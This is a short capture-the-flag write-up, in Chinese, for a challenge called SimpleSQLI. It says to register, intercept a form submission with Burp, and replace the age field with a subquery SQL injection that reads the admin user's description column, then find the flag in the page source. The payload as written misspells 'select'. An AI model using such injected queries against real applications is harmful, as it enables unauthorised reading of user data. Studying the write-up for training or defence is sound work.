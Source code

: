 # Title
SimpleSQLI
# Steps
* Step1
注册用户；
* Step2
随便填写表单,然后用burp抓包，将age更改为`(select description from(selecct * from users where username=0x61646d696e)a)`
* Step3
查看源码，即可发现flag;

